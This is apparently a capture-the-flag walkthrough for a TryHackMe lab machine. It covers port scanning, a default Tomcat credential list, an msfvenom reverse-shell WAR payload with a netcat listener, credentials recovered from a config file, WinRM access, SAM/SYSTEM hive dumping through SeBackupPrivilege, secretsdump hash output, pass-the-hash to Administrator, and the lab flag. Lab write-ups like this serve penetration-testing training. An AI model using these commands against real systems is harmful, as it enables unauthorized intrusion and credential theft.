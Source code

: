 # WRK.TRYHACKME.LOC

## Machine Information

Domain Name: tryhackme.loc

Machine name: WRK

## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt wrk.tryhackme.loc -Pn

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:14 CEST
Nmap scan report for wrk.tryhackme.loc (10.200.150.20)
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-09T14:17:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TRYHACKME
|   NetBIOS_Domain_Name: TRYHACKME
|   NetBIOS_Computer_Name: WRK
|   DNS_Domain_Name: tryhackme.loc
|   DNS_Computer_Name: WRK.tryhackme.loc
|   DNS_Tree_Name: tryhackme.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-09T14:16:49+00:00
| ssl-cert: Subject: commonName=WRK.tryhackme.loc
| Not valid before: 2025-04-09T09:59:17
|_Not valid after:  2025-10-09T09:59:17
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open  http          Apache Tomcat (language: en)
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.50
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (91%), Microsoft Windows 10 1903 - 21H1 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-09T14:16:51
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   48.98 ms 10.250.1.1
2   49.35 ms wrk.tryhackme.loc (10.200.150.20)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.06 seconds

```



## Ports Enumeration

### 8080 - Apache Tomcat

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The version 8.5.50 doesn't seem vulnerable.

Try to authenticate into the page clicking in the "Manage App" button. And try with some possible default password of TomCat:&#x20;

```
Apache Tomcat Host Manager (web)	admin	admin
Apache Tomcat Host Manager (web)	ADMIN	ADMIN
Apache Tomcat Host Manager (web)	admin	<blank>
Apache Tomcat Host Manager (web)	admin	j5Brn9
Apache Tomcat Host Manager (web)	admin	tomcat
Apache Tomcat Host Manager (web)	cxsdk	kdsxc
Apache Tomcat Host Manager (web)	j2deployer	j2deployer
Apache Tomcat Host Manager (web)	ovwebusr	OvW*busr1
Apache Tomcat Host Manager (web)	QCC	QLogic66
Apache Tomcat Host Manager (web)	role1	role1
Apache Tomcat Host Manager (web)	role1	tomcat
Apache Tomcat Host Manager (web)	role	changethis
Apache Tomcat Host Manager (web)	root	root
Apache Tomcat Host Manager (web)	tomcat	changethis
Apache Tomcat Host Manager (web)	tomcat	s3cret
Apache Tomcat Host Manager (web)	tomcat	tomcat
Apache Tomcat Host Manager (web)	xampp	xampp
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

With the `tomcat : s3cret`  creds we are in.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Craft WAR payload with msfvenom

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.250.1.6 lport=9009 -f war -o shell.war
```

And start a listener with netcat

```
nc -lvnp 9009
```

Upload the WAR payload and then open the application from the Management page

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We dive into this page and a connection has been establish

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







## Lateral Movement

### Credentials in Tomcat conf file

Checking in configuration file i found this interesting file with new credentials

```
more C:/tomcat/apache-tomcat-8.5.50/conf/tomcat-users.xml

<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users>
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
<!-- Note:  Keeping credentials as default. Migration to the AD user is not yet fully working. Will be fixed in the future
<user username="svc.callback" password="qvBVAj9avM3ykcbf9s" roles="manager-gui"/>
 -->
</tomcat-users>
```

New credentials: `svc.callback : qvBVAj9avM3ykcbf9s`&#x20;



### Access through WinRM

Try this credentials found with `evil-winrm` tool.

```bash
evil-winrm -i wrk.tryhackme.loc -u 'svc.callback' -p 'qvBVAj9avM3ykcbf9s'
```

This command allow us to access into the WRK machine as `svc.callback` user.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### Windows Local Enumeration

With the follow command we can see all information about `svc.callback` user.

```powershell
whoami /all
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From this information we can understand that the user has:

* **SeBackupPrivilege/SeRestorePrivilege**: this permisions allows an attacker to dump the all file in the system.
* is Group Owner of the local Administratos group
* SeImpersonatePrivilege: this permission allows an attacker to impersonate all authenticated user.
* Is Domain user. With this informations

```bash
User Name              SID
====================== ============================================
tryhackme\svc.callback S-1-5-21-1966530601-3185510712-10604624-3121
```



### Exploit SeBackupPrivilege

An attacker with this privilege can copy the SAM and SYSTEM file querying the registry and extract credentials from this files.

```powershell
cd C:\Temp

reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

{% code title="Evil-winrm shell" %}
```bash
download sam
download system
```
{% endcode %}

```bash
impacket-secretsdump -sam sam -system system LOCAL

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xfa0661c3eee8696eeb436f2bafa060e7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e75f25c6788a558e4f3f49714ed95e41:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:95f2822ae7e725c8e30b2b31f66c1b86:::
[*] Cleaning up... 
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Administrator access with Pass-the-Hash

An attacker with the Administrator NTLM could make access to the machine using the Pass-the-Hash technique.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'e75f25c6788a558e4f3f49714ed95e41'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Machine Flag

To demostrate that we have compromised this machine, get the machine's flag.

```
more C:\flag.txt

THM{97fcebcc-cc05-4212-bd05-73730eeee0ed}
```



